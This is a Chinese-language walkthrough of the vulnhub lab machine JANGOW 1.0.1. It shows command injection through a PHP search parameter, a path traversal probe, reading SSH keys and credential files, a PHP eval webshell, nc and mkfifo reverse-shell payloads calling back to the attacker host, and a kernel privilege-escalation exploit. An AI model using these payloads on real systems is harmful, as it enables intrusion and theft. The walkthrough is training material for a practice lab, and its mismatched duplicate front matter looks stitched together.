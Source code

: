 ```yaml
---
title: vulnhub 做题 JANGOW 1.0.1
tags: [penetration]
date: 2024-10-12 00:00:00
categories: [penetration]
excerpt: day1
---
```


---
title: 2023.11 月赛
tags: [ctf-misc]
date: 2023-11-25 15:06:00
categories: [ctf-misc]
excerpt: 月赛writeup
---


## vulnhub 做题 JANGOW: 1.0.1


### 用vmware开机分配不到ip

开机时按e进入gnu grub的boot选项配置界面，把linux一行最后的 ro 改成 `rw single init=/bin/bash`, ctrl+x 保存重启。

ip addr 可以查看有哪些网卡，然后打开 /etc/network/interfaces 把 primary network interface 里边的网卡替换成已有的。（也不知道这个interfaces里写的网卡是哪里来的，可能是因为我用的vmware不是virtualbox？）

（还遇到了键盘按/结果出来的是;的问题，也不知道是咋回事😴）

`/etc/init.d/networking restart`, 然后重启虚拟机

虽然本来该显示ip的REDE:还是什么都没有， 但是 nmap 已经可以扫到这个主机了

```zsh
└─$ nmap -sn 192.168.169.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-11 03:50 EDT
Nmap scan report for 192.168.169.2
Host is up (0.00053s latency).
Nmap scan report for 192.168.169.128
Host is up (0.00035s latency).
Nmap scan report for 192.168.169.129
Host is up (0.0022s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 3.03 seconds
```

### 扫描

```zsh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
|_http-title: Index of /
```

看到了web和ftp端口

### 漏洞点

打开这个web，会告诉/site路径下有一个网站

![](/img/pene/1.png)

一顿乱点发现右上角这个Buscar会跳转到一个奇怪的路径，`http://192.168.169.129/site/busque.php?buscar=`，这种路径用kali的dirbuster还找不到。看到有的题解说用feroxbuster ~~（但是这东西要两个G）~~，而且我实际用了一下也没扫到这个busque.php😢，倒是扫到了wordpress路径，但是和这道题没关系😴

然后对这个php的参数传进去一个linux命令，比如ls、id、ps等等，发现能执行并回显 ~~（我也不知道为什么就想到了输个linux命令进去，可能这就是大佬的经验吧）~~

其实这种情况也可以试试文件包含漏洞，形如 `busque.php?buscar=../../../../../../etc/passwd`

知道了可以执行命令尝试用nc反弹shell，`which%20nc` 发现确实有nc

`nc -lvvp 6666`监听链接，`nc%20-e%20/bin/bash%20<attacker-ip>%206666`尝试反弹shell

但是监听不到任何链接😭，只能换个方法

寻找ssh私钥  `cat%20/home/jangow01/.ssh/id_rsa` , 也没有回显

只能到处找找有没有什么奇怪的文件了

通过cat可以看到busque.php内容是`?php system($_GET['buscar']); ?`，现在也没用了

通过`ls -alh`在`/var/www/html`下发现有一个.backups文件

```php
$servername = "localhost"; 
$database = "jangow01"; 
$username = "jangow01"; 
$password = "abygurl69"; // Create connection 
$conn = mysqli_connect($servername, $username, $password, $database); // Check connection 
if (!$conn) { die("Connection failed: " . mysqli_connect_error()); } echo "Connected successfully";
mysqli_close($conn); 
```

由于端口扫描没开ssh服务，并且开了ftp服务，看一下是不是这个登陆密码

```zsh
└─$ ftp 192.168.169.129                          
Connected to 192.168.169.129.
220 (vsFTPd 3.0.3)
Name (192.168.169.129:kali): jangow01
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14986|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0            4096 Oct 31  2021 html
226 Directory send OK.
ftp> 
```

成功登录 

生成一个一句话木马 

`echo '<?php eval($_POST["cmd"]); ?>' > shell.php`

`echo%20%27%3C?php%20eval($_POST[%22cmd%22]);%20?%3E%27%20%3E%20shell.php`

> 但是我在尝试用ftp上传一个shell.php文件时，会报错：553 Could not create file. 应该是权限不够，但是下载是可以的
> 那这道题给ftp的用户名和密码是为了啥呢，后面也用不到了😶‍🌫️

用AntSword链接，地址是 `http://192.168.169.129/site/shell.php` (要带上site) 密码就是要post的参数名cmd

创建一个用来反弹shell的php，rev.php

然后写入`echo '<?php system("mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.169.128 443 >/tmp/f");?>' > rev.php`

> 我不知道为什么echo进去总是失败，最后用的AntSword的文件管理写进去的

这里选择443端口是因为其余端口有防火墙，而靶机大部分是不会禁80 443的

浏览器访问rev.php，成功拿到反弹shell

```zsh
┌──(kali㉿kali)-[~]
└─$ sudo nc -nlvp 443            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [192.168.169.128] from (UNKNOWN) [192.168.169.129] 52324
/bin/sh: 0: can't access tty; job control turned off
$ ls
assets
busque.php
css
index.html
js
rev.php
shell.php
wordpress
$ 
```


### 提权

通过which命令知道/usr/bin/python3，然后用 pty 方式来升级shell
`/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'`

得到了一个正常的shell

然后uname -a查看系统版本，发现是4.4.0-31-generic ubuntu

用kali的searchsploit搜索提权代码，然后用ftp或者AntSword上传到靶机上

`/usr/share/exploitdb/exploits/linux/local/45010.c`

编译执行提权成功

![](/img/pene/2.png)